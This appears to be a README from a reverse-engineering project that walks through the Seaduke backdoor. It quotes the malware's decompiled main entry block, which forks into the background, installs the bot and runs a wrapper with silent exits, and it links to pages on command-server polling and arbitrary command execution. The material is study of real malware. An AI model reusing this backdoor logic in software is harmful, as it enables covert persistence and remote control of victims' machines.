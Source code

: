 # what is this?
an anatomy of [seaduke](https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2211)

```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run = True
    if v_sys_platform!='win32':
        forkmeiamfamous()
    me = BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me = None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me = None
        time_sleep(1)
        sys_exit(0)
```
* [running seaduke as a daemon/background process](https://github.com/mynameisvinn/Seaduke/blob/master/fork.md)
* [installing botKlass](https://github.com/mynameisvinn/Seaduke/blob/master/install.md)
* [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* [bot settings](https://github.com/mynameisvinn/Seaduke/blob/master/bot_settings.md), its initial attributes
* [how does seaduke fetch instructions from the mothership?](https://github.com/mynameisvinn/Seaduke/blob/master/fetch.md)
* [decode](https://github.com/mynameisvinn/Seaduke/blob/master/decode.md)
* [executing tasks with `threadStuffKlass`](https://github.com/mynameisvinn/Seaduke/blob/master/execution.md)
* executing [arbitrary commands](https://github.com/mynameisvinn/Seaduke/blob/master/commands.md)